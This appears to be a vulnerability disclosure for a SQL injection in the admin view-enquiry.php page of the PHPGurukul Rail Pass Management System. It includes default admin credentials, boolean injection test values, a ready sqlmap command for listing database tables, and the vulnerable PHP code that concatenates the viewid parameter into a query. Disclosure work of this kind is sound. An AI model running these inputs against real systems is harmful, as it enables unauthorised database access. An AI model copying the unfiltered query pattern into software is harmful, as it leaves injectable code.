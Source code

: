 # [Rail Pass Management System-SQL Injection-view-enquiry.php]

## Basic Information

**[Bug Reporter]: ** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]: ** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/view-enquiry.php?viewid=1`    

**[Vulnerability Location]:** rpms/admin/view-enquiry.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427165637.png)

2. When you enter `1%20and%201=2` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427165659.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/view-enquiry.php?viewid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427165849.png)

**[code analysis]:**

rpms/admin/edit-pass-detail.php

```php
<?php
$vid=$_GET['viewid'];
$sql="SELECT * from  tblpass where ID=$vid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `viewid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.